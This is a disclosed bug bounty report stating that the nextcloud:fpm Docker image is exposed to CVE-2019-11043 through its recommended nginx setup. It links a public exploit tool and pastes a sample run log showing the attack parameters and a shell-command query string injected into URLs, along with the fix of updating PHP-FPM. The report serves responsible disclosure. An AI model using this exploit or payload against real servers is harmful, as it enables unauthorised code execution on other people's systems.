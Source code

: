 # Docker image with FPM is vulnerable to CVE-2019-11043

## Report Details
- **Report ID**: 720306
- **URL**: https://hackerone.com/reports/720306
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-10-22T16:44:12.038Z
- **Disclosed**: 2020-03-14T10:09:58.162Z

## Reporter
- **Username**: beched
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
The CVE-2019-11043 vulnerability can be exploited in the latest nextcloud:fpm image.

This is due to the specific nginx configuration recommended for nextcloud:
https://github.com/nextcloud/docker#base-version---fpm
https://github.com/nextcloud/documentation/blob/master/admin_manual/installation/nginx.rst
https://github.com/nextcloud/docker/blob/master/.examples/docker-compose/with-nginx-proxy/mariadb/fpm/web/nginx.conf

Here's the exploit: https://github.com/neex/phuip-fpizdam

Sample exploit run:
# ./phuip-fpizdam http://localhost:8080/ocs/v2.php
2019/10/22 19:36:29 Base status code is 200
2019/10/22 19:36:30 Status code 502 for qsl=1765, adding as a candidate
2019/10/22 19:36:31 The target is probably vulnerable. Possible QSLs: [1755 1760 1765]
2019/10/22 19:36:48 Attack params found: --qsl 1760 --pisos 191 --skip-detect
2019/10/22 19:36:48 Trying to set "session.auto_start=0"...
2019/10/22 19:36:50 Detect() returned attack params: --qsl 1760 --pisos 191 --skip-detect <-- REMEMBER THIS
2019/10/22 19:36:50 Performing attack using php.ini settings...
2019/10/22 19:36:52 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/22 19:36:52 Trying to cleanup /tmp/a...
2019/10/22 19:36:52 Done!

To fix the issue, you need to update PHP-FPM version in the nextcloud:fpm image.
Reference: https://bugs.php.net/bug.php?id=78599

## Impact

Execute arbitrary PHP code on the target server

## Attachments
No attachments
